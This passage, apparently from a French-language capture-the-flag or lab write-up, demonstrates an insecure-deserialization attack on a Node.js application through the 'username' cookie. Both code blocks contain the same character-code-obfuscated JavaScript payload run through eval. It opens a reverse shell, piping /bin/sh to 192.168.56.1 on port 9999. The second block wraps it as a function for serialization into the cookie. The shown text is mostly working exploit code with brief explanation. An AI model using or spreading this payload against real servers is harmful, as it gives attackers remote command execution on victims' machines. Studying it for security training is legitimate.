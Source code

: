 ```bash
eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,53,54,46,49,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))
```

Mais il ne suffit pas de passer ce code comme valeur pour la clé `username` du cookie. Il faut à la place que cette valeur correspond à une fonction sérialisée qui appelera notre code.

Pour cela je dois écrire le script suivant qui affichera le code sous forme sérialisée :

```js
var y = {                                                                                                              
username : function() { return eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,57,50,46,49,54,56,46,53,54,46,49,34,59,10,80,79,82,84,61,34,57,57,57,57,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10));}
```